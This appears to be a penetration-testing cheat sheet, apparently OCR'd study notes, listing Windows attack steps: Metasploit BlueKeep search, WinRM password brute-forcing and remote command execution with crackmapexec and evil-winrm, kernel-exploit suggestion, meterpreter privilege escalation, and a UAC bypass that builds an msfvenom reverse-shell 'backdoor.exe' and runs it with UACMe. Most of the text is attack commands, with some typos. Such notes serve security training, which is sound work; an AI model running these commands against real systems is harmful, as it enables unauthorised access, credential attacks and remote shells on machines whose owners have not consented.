 ## BLUE KEEP
+ RDP vulnerability
+ Microsoft Research
+ 
```
msfconsole
search BlueKeep
set target

```

## WinRM
+ Remote Managment Protocol faciliate Remote Access with Windows System Over HTTPS
+ WINRM uses 5985 and 5986

```
nmap -sV -p 5985 IP
crackmapexec winrm IP -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
crackmapexec winrm IP -u administrator -p password -x "whoami"
crackmapexec winrm IP -u administrator -p password -x "systeminfo"
evil-winrm.rb -u admin =p "password" -i IP

msfconsole
search winrm_script
use winrm_script_exec
set FORCE_VBS true
set USERNAME
set PASSWORD
exploit
```

## Windows Kernel Exploitation 
Windows runs on Windows NT 
+ identify kernel exploit 
+downalod and compiling the kernel exploit
windows exploit suggester
metreperter getsystem to privilege escelate

```
search suggester
background # put meterpreter session in the background
```

```
windows-exploit-suggester.py --update
windows-exploit-suggester.py --database file.txt --systeminfo file.txt
upload ~/filelocation # upload files in msfconsole to widnows 
```

## Bypassing UAC with UACMe
+ UAC is user access control UAC is used to ensure that changes to the operating sysem requrie approval from the admisntrator or a user account that is part of the local group
+ AutoElevate
```
ps -S explorer.exe
migrate PID
getsystem

msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > backdoor.exe
use multihandler
upload backdoor.exe and akagi64.exe
.\Akagair64.exe 23 location of backdoor

```